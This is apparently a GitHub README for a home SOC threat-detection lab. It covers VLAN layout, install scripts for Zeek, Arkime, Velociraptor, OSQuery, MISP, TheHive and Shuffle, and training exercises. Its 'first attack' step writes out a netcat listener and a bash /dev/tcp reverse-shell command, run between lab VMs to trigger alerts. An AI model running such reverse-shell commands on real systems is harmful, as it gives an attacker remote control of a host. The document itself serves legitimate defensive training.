







# 🔬 Advanced Threat Detection Lab

[](https://github.com/sandeepmothukuri/soc-threat-hunting-lab/actions)
[](#-tools-overview)
[](docs/detection-coverage.md)
[](LICENSE)
[](https://github.com/sandeepmothukuri/soc-threat-hunting-lab)

> **A fully free, hands-on SOC analyst lab** — detect attacks as they happen, investigate forensically, enrich with global threat intel, and respond automatically. No paid tools. All production-grade, open-source.

[🏗 Architecture](#-lab-architecture) · [🧰 Tools](#-tools-overview) · [📡 Network Layout](#-network-segmentation) · [🔄 Data Flow](#-data-flow) · [⚡ Quick Start](#-quick-start) · [📸 Screenshots](#-screenshots) · [🎯 Exercises](#-hands-on-exercises)

---

## 🏗️ Lab Architecture



---

## 🧰 Tools Overview

| # | Tool | Category | IP | What It Detects |
|---|------|----------|----|-----------------|
| 1 | **Zeek** | Network IDS | 192.168.50.10 | DNS tunneling, port scans, webshells, lateral movement |
| 2 | **RITA** | Beaconing Analysis | 192.168.50.10 | C2 callback patterns (statistical analysis) |
| 3 | **Arkime** | Full Packet Capture | 192.168.50.20 | All network sessions, file extraction, JA3 fingerprints |
| 4 | **Velociraptor** | EDR / DFIR | 192.168.50.30 | Live process/file/memory forensics, host hunting |
| 5 | **OSQuery** | Endpoint Visibility | each target | Persistence, SUID, backdoor ports, fileless malware |
| 6 | **MISP** | Threat Intelligence | 192.168.60.10 | Known C2 IPs, malware hashes, phishing domains |
| 7 | **TheHive** | Case Management | 192.168.60.20 | Central alert triage, IR workflows, analyst collaboration |
| 8 | **Cortex** | Analysis Engine | 192.168.60.21 | IOC enrichment, malware analysis, VirusTotal/AbuseIPDB |
| 9 | **Shuffle** | SOAR | 192.168.60.30 | Auto-response: block, isolate, notify, ticket |

---

## 📡 Network Segmentation

The lab is split across 4 isolated VLANs to mirror a production SOC network:

| VLAN | Subnet | Purpose | VMs |
|------|--------|---------|-----|
| **Attacker** | 192.168.20.0/24 | Simulated threat actor | Kali Linux |
| **Target** | 192.168.30.0/24 | Victim endpoints | Ubuntu 22.04, Windows 10 |
| **Detection** | 192.168.50.0/24 | Passive monitoring tools | Zeek/RITA, Arkime, Velociraptor |
| **SOC / Intel** | 192.168.60.0/24 | Alert management and response | MISP, TheHive, Cortex, Shuffle |

Network traffic from the Target VLAN is **mirrored** (port-span) to the Detection VLAN — detection tools never touch production traffic directly.

---

## 🔄 Data Flow

```
1. Attacker launches activity from Kali (192.168.20.10) → Target VM (192.168.30.10)
2. Network traffic mirrored to Zeek and Arkime (Detection VLAN)
3. Zeek JSON logs → RITA for statistical beaconing analysis
4. Endpoint telemetry collected via OSQuery and Velociraptor
   └─ OSQuery: scheduled queries run every 60s → integration script parses results → pushes alerts to TheHive
5. Alerts and hunt results sent to TheHive (SOC VLAN)
6. TheHive triggers Cortex analyzers → IOC enriched via VirusTotal, AbuseIPDB, passive DNS
7. MISP enriches alerts with community threat intelligence feeds
8. Shuffle triggers automated response: IP block, host isolation via Velociraptor, analyst notification
```

---

## 💡 Why This Lab Matters

This lab simulates a **real enterprise SOC pipeline** end-to-end:

| Layer | Tools |
|-------|-------|
| **Detection** | Zeek, OSQuery, Velociraptor |
| **Analysis** | RITA, Arkime |
| **Intelligence** | MISP |
| **Response** | TheHive, Cortex, Shuffle |

It mirrors production SOC workflows used in enterprise environments — not just dashboards, but full detection-to-response automation with real threat intelligence integration.

---

## ⚡ Quick Start

### Prerequisites

| Requirement | Version |
|---|---|
| VirtualBox | 7.x |
| RAM | 32 GB (24 GB minimum) |
| Disk | 400 GB free |
| OS | Ubuntu 22.04 ISO |

### Step 1 — Clone the Repo

```bash
git clone https://github.com/sandeepmothukuri/soc-threat-hunting-lab.git
cd soc-threat-hunting-lab
```

### Step 2 — Prepare Host Machine

```bash
sudo ./scripts/setup-host.sh
```

This installs VirtualBox guest additions, enables promiscuous mode on the bridge interface, and configures static routes for all 4 VLANs.

### Step 3 — Build VMs

Follow [docs/vm-build-guide.md](docs/vm-build-guide.md) to create 8 VMs in VirtualBox. Recommended specs:

| VM | OS | RAM | Disk | IP |
|---|---|---|---|---|
| Kali (Attacker) | Kali Linux 2024 | 2 GB | 40 GB | 192.168.20.10 |
| Ubuntu Target | Ubuntu 22.04 | 2 GB | 40 GB | 192.168.30.10 |
| Zeek/RITA | Ubuntu 22.04 | 4 GB | 50 GB | 192.168.50.10 |
| Arkime | Ubuntu 22.04 | 4 GB | 80 GB | 192.168.50.20 |
| Velociraptor | Ubuntu 22.04 | 4 GB | 50 GB | 192.168.50.30 |
| MISP | Ubuntu 22.04 | 4 GB | 50 GB | 192.168.60.10 |
| TheHive + Cortex | Ubuntu 22.04 | 6 GB | 60 GB | 192.168.60.20 / .21 |
| Shuffle | Ubuntu 22.04 | 4 GB | 50 GB | 192.168.60.30 |

### Step 4 — Install Detection Tools (Detection VLAN)

SSH into each Detection VLAN VM and run:

```bash
# Zeek + RITA (192.168.50.10)
sudo ./01-zeek-rita/install-zeek.sh
sudo ./01-zeek-rita/install-rita.sh

# Arkime (192.168.50.20)
sudo ./02-arkime/install-arkime.sh

# Velociraptor server (192.168.50.30)
sudo SERVER_IP=192.168.50.30 ./03-velociraptor/install-velociraptor.sh
```

### Step 5 — Install Endpoint Agents (Target VM)

```bash
# OSQuery agent on each target
sudo ./04-osquery/install-osquery.sh

# Velociraptor client agent
sudo VELOCIRAPTOR_SERVER=192.168.50.30 ./03-velociraptor/install-client.sh
```

OSQuery runs scheduled detection queries every 60 seconds. Results are parsed by `08-integrations/osquery-to-thehive.py` and pushed as alerts to TheHive automatically.

### Step 6 — Install SOC / Intel Tools (SOC VLAN)

```bash
# MISP (192.168.60.10)
sudo MISP_IP=192.168.60.10 ./05-misp/install-misp.sh

# TheHive + Cortex (192.168.60.20 / .21)
sudo HIVE_IP=192.168.60.20 ./06-thehive/install-thehive.sh

# Shuffle (192.168.60.30)
sudo SHUFFLE_IP=192.168.60.30 ./07-shuffle/install-shuffle.sh
```

### Step 7 — Configure Integrations

```bash
# Wire up all tools: webhooks, API keys, Cortex analyzers
./08-integrations/configure-all.sh
```

This script:
- Registers Zeek log watcher → TheHive webhook
- Configures OSQuery → TheHive integration script (systemd timer, runs every 60s)
- Enables Cortex analyzers: VirusTotal, AbuseIPDB, PassiveDNS, Shodan
- Creates Shuffle workflow: TheHive alert → MISP lookup → Cortex enrich → auto-response

### Step 8 — Verify the Lab

```bash
./scripts/health-check.sh
# Expected: 20 passed, 0 failed
```

### Step 9 — Run First Attack

```bash
# On Kali (192.168.20.10)
nc -lvp 4444

# On target (192.168.30.10)
bash -i >& /dev/tcp/192.168.20.10/4444 0>&1

# Within 60 seconds:
# ✅ Zeek conn.log: connection recorded
# ✅ OSQuery proc_net_activity: alert pushed to TheHive
# ✅ Velociraptor: nc process + network conn visible in live hunt
# ✅ TheHive: case auto-created, Cortex enriches source IP, Shuffle notifies analyst
```

---

## 📸 Screenshots

### Arkime — Full Packet Capture and Session Search

> Search, filter, and replay every network session. JA3 fingerprinting identifies TLS clients across the entire lab.



---

### TheHive — Alert Management Panel

> All incoming alerts from Zeek, OSQuery, and Velociraptor are queued, prioritized, and assigned here.



---

### TheHive — Active Case Management

> Each detected threat auto-creates a structured case with tasks, IOCs, evidence, and analyst timeline.



---

### MISP — Threat Intelligence Dashboard

> Live IOC feeds, event correlations, and threat actor tracking from the global security community.



---

### Shuffle — SOAR Automation Workflow

> Visual workflow connects TheHive webhook → MISP enrichment → Cortex analysis → auto-block.



---

## 🎯 Hands-On Exercises

### 🥉 Beginner

1. **Detect a Port Scan** — Run `nmap -sS <target>` from Kali, watch Zeek `notice.log` alert fire
2. **Add an IOC to MISP** — Add a C2 IP, sync to OSQuery watchlist, simulate connection, see alert
3. **Run a Velociraptor Hunt** — Use `SOCLab.HuntPersistence` on all endpoints

### 🥈 Intermediate

4. **Investigate a Webshell** — Plant a PHP webshell, detect via OSQuery + Arkime, extract PCAP evidence
5. **Detect C2 Beaconing** — Use Metasploit Meterpreter, watch RITA beacon score rise above 0.7
6. **Build a Shuffle Workflow** — Connect TheHive → MISP → Cortex in the visual automation editor

### 🥇 Advanced

7. **Full Incident Response** — End-to-end: Kali attack → detection → TheHive case → Shuffle auto-response
8. **Hunt for Lateral Movement** — Simulate pass-the-hash, map activity with RITA + Velociraptor across 2 VMs
9. **DFIR Evidence Collection** — Compromise a host, collect full forensic bundle via Velociraptor, build timeline

---

## 🛡️ MITRE ATT&CK Coverage

35 MITRE ATT&CK techniques mapped — see [docs/detection-coverage.md](docs/detection-coverage.md) for the full matrix.



---

## 🏆 Skills Demonstrated

- **Network traffic analysis** — Zeek protocol logs, Arkime PCAP search, RITA beaconing scores
- **Threat hunting** — Velociraptor VQL hunts, OSQuery scheduled detection queries
- **Threat intelligence integration** — MISP IOC feeds, event correlation, STIX2 sharing
- **Incident response** — TheHive case management, Cortex IOC enrichment, analyst workflows
- **SOAR automation** — Shuffle visual workflows, auto-block, host isolation, analyst notification
- **MITRE ATT&CK mapping** — 35 techniques across Recon, Execution, Persistence, Lateral Movement, C2, Exfiltration

---

## 📚 Module Index

| Module | Directory | Purpose |
|--------|-----------|---------|
| 01 | `01-zeek-rita/` | Passive network monitor + C2 beaconing detector |
| 02 | `02-arkime/` | Full packet capture with session search UI |
| 03 | `03-velociraptor/` | Live endpoint forensics + threat hunting |
| 04 | `04-osquery/` | SQL-based endpoint visibility + scheduled detections |
| 05 | `05-misp/` | Threat intelligence platform + global IOC feeds |
| 06 | `06-thehive/` | SOC case management + Cortex IOC enrichment |
| 07 | `07-shuffle/` | SOAR automation + auto-response workflows |
| 08 | `08-integrations/` | Cross-tool scripts, Sigma rules, IR playbooks |

---

## 📖 Documentation

| Doc | Description |
|-----|-------------|
| [Architecture](docs/architecture.md) | Data flows, network diagrams, tool integration maps |
| [VM Build Guide](docs/vm-build-guide.md) | Step-by-step VirtualBox VM creation |
| [Detection Coverage](docs/detection-coverage.md) | Full MITRE ATT&CK coverage matrix |
| [IR Playbooks](08-integrations/playbooks/incident-response-playbooks.md) | Step-by-step incident response guides |

---

## 🔗 Related Projects

| Project | Description |
|---|---|
| [soc-lab-free](https://github.com/sandeepmothukuri/soc-lab-free) | Companion lab — Wazuh, OpenVAS, pfSense, Proxmox Mail |
| [ai-soc-lab](https://github.com/sandeepmothukuri/ai-soc-lab) | AI-augmented triage — LLaMA3 + Ollama + TheHive |

---

## 📜 License

MIT — Free to use, modify, and share. Built for learning. Do not use against systems you do not own.

---

## 👤 Author

**Sandeep Mothukuri** — Senior SOC Analyst (L3) | Threat Hunting | Incident Response | CISM

- Website: [cybertechnology.in](https://cybertechnology.in)
- GitHub: [@sandeepmothukuri](https://github.com/sandeepmothukuri)
- LinkedIn: [sandeepmothukuris](https://www.linkedin.com/in/sandeepmothukuris)

---

## 🗂️ All Repositories

| Repository | Description |
|---|---|
| [ai-soc-lab](https://github.com/sandeepmothukuri/ai-soc-lab) | AI-augmented SOC with Wazuh + TheHive + Ollama (LLaMA3) for automated triage |
| [advanced-soc-lab-v2.0](https://github.com/sandeepmothukuri/advanced-soc-lab-v2.0) | 12-tool SOC lab with OpenSearch, Suricata, Zeek, MISP, Caldera, Velociraptor |
| [Autonomous-SOC-Lab](https://github.com/sandeepmothukuri/Autonomous-SOC-Lab) | Autonomous SOC with AI-driven detection and self-healing playbooks |
| [soc-threat-hunting-lab](https://github.com/sandeepmothukuri/soc-threat-hunting-lab) | Threat detection lab — Zeek, RITA, Arkime, Velociraptor, OSQuery, MISP |
| [soc-lab-free](https://github.com/sandeepmothukuri/soc-lab-free) | Free SOC lab — OpenVAS, Wazuh, pfSense, Proxmox Mail, Lynis |
| [soc-lab](https://github.com/sandeepmothukuri/soc-lab) | SOC analyst home lab — Wazuh SIEM, Sysmon, MITRE ATT&CK mapping |
| [cyberblue](https://github.com/sandeepmothukuri/cyberblue) | Containerised blue team platform — SIEM, DFIR, CTI, SOAR, Network Analysis |
